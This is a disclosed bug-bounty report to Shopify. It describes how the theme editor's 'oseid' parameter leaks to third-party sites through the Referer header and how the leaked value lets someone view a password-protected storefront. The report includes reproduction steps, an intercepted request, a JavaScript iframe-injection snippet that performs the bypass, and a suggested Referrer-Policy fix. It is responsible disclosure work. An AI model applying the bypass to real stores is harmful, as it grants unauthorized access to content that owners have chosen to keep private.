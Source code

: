 # Theme editor `oseid` parameter is leaked to third-party services through the `Referer` header which leads to somekind of storefront password bypass.

## Report Details
- **Report ID**: 1262434
- **URL**: https://hackerone.com/reports/1262434
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-07-15T03:33:02.819Z
- **Disclosed**: 2022-07-11T17:13:48.111Z

## Reporter
- **Username**: saltymermaid
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hello Shopify,

## Summary
While reading @danishalkatiri's report #997350, I remembered a report that @francisbeaudoin shared with me some time ago*(mid-February 2021)* about leaking the theme editor `oseid` parameter and being able to exploit it to a point where he was able to somewhat bypass the storefront password. So, given all that knowledge, I went on to replicate pretty much what was done in #997350, but within the theme editor scope instead, hoping that the `oseid` parameter would be leaked through the `Referer` header...and it did!

## Requirements
1. A shop*(your-shop.myshopify.com)* with password protection enabled.

2. At least one active product (will be used in the theme editor preview).

3. Burp Suite Proxy.

## Steps to reproduce
1. **[Victim]** From your shop, in the themes page, customize your currently published theme and move on to the theme editor.

2. **[Victim]** In the theme editor, from the preview dropdown located on top, choose `Products` and then `Default product`.

3. **[Victim]** From the product page, in the editor preview, click any of the social media sharer icon that appears under the product details *(Pinterest used for this POC)*.
 3.1. Have Burp Suite proxy ready to intercept requests.

4. **[Victim]** A prompt is shown, telling you that the link cannot be opened inside the editor and that it will be opened in a new window, click ok and go on with it.

5. **[Victim]** Intercept the request with Brup Suite proxy and the intercepted request should look like the following:

	```http
	GET /pin/create/button/?url=https://{shop}.myshopify.com/products/example-t-shirt&media=//cdn.shopify.com/s/files/1/0262/8304/9016/products/saltymermaid-avatar_f9d13a6b-bb24-4dd8-b611-70ad25dd2d24_1024x1024.png?v=1617650754&description=Example%20T-Shirt HTTP/1.1
	Host: pinterest.com
	Sec-Ch-Ua: "Chromium";v="91", " Not;A Brand";v="99"
	Sec-Ch-Ua-Mobile: ?0
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Sec-Fetch-Site: cross-site
	Sec-Fetch-Mode: navigate
	Sec-Fetch-User: ?1
	Sec-Fetch-Dest: document
	Referer: https://{shop}.myshopify.com/products/example-t-shirt?oseid={oseid}
	Accept-Encoding: gzip, deflate
	Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
	Connection: close
	```

6. **[Victim]** Notice the shop handle and `oseid` parameter are exposed at **line \#12** of the intercepted request through the `Referer` header.
 6.1.  From here, our shop handle and the oseid parameter would have been leaked to a third-party and potentially exposed to a malicious insider.

7. **[Attacker]** Now from a clean browser session (incognito recommended), go to your shop storefront where you should be faced with the "opening soon" or "password" page.

8. **[Attacker]** Open up your browser development tool and copy the following code snippet into your console while making sure to replace the `shopHandle ` and `oseid` variables with the right values:

	```javascript
	let shopHandle = 'victim-shop', oseid = 'oseid-1234';

	const iframe = document.createElement('iframe');	
	iframe.src = `https://${shopHandle}.myshopify.com/?oseid=${oseid}`;
	iframe.height = window.innerHeight;
	iframe.width = window.innerWidth;
	iframe.style.position = 'absolute';
	iframe.style.zIndex = '9001';
	iframe.style.top = iframe.style.left = 0; 

	document.querySelector('body').appendChild(iframe);
	```

9. **[Attacker]** At this point,  you should have "bypassed" the storefront password and should now be able to navigate within the iframe.

## Impact

In this scenario, the theme editor `oseid` parameter was leaked through the `Referer` header to a third-party service where a malicious insider could later exploit it. Per my understanding, injecting the iframe allows us to "bypass" the javascript redirection that we are normally confronted with when trying to browse the store directly from the address bar. This allows the attacker to "bypass" the storefront password as well and to finally navigate the store.

## Remediation
I believe this issue could be fixed pretty much like report #997350 by adding a `Referrer-Policy` header with the value `same-origin` when browsing the theme editor preview window.

Cheers.

## Attachments
No attachments
